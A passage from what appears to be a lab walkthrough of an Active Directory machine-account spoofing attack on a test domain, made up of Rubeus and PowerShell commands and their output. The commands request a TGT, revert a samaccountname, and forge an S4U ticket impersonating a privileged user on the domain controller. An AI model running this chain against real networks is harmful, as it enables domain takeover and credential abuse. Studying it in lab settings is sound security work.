 	lastlogon              : 1/1/1601 2:00:00 AM
	lastlogoff             : 1/1/1601 2:00:00 AM
	objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=valhalla,DC=local
	dscorepropagationdata  : 1/1/1601 12:00:00 AM
	ms-ds-creatorsid       : {1, 5, 0, 0...}
	badpwdcount            : 0
	cn                     : TestMachine
	useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
	whencreated            : 12/12/2021 4:17:32 PM
	primarygroupid         : 515
	iscriticalsystemobject : False
	usnchanged             : 13492
	dnshostname            : TestMachine.child.valhalla.local
	
	
Ask a new TGT

	.\Rubeus.exe asktgt /user:KABIL /password:Pass123! /domain:child.valhalla.local /dc:kabil.child.valhalla.local /nowrap

	[*] Action: Ask TGT

	[*] Using rc4_hmac hash: C718F548C75062ADA93250DB208D3178
	[*] Building AS-REQ (w/ preauth) for: 'child.valhalla.local\KABIL'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFLDCCBSigAwIBBaEDAgEWo.......G9jYWw=

	  ServiceName              :  krbtgt/child.valhalla.local
	  ServiceRealm             :  CHILD.VALHALLA.LOCAL
	  UserName                 :  KABIL
	  UserRealm                :  CHILD.VALHALLA.LOCAL
	  StartTime                :  12/12/2021 6:27:00 PM
	  EndTime                  :  12/13/2021 4:27:00 AM
	  RenewTill                :  12/19/2021 6:27:00 PM
	  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
	  KeyType                  :  rc4_hmac
	  Base64(key)              :  kfbRBBGAwdaS1HA+21j2Jw==
	  ASREP (key)              :  C718F548C75062ADA93250DB208D3178
	  
	  
Revert machine account sam to old one

	Set-MachineAccountAttribute -MachineAccount TestMachine -Value 'TestMachine$' -Attribute samaccountname -Verbose
	VERBOSE: [+] Domain Controller = kabil.child.valhalla.local
	VERBOSE: [+] Domain = child.valhalla.local
	VERBOSE: [+] Distinguished Name = CN=TestMachine,CN=Computers,DC=child,DC=valhalla,DC=local
	
Ask a s4u ticket with rubeus

	.\Rubeus.exe s4u /self /impersonateuser:superuser /altservice:"cifs/kabil.child.valhalla.local" /dc:kabil.child.valhalla.local /ptt
	/ticket:doIFLDCCBSigAwIBBa...BsUY2hpbGQudmFsaGFsbGEubG9jYWw=

	[*] Action: S4U
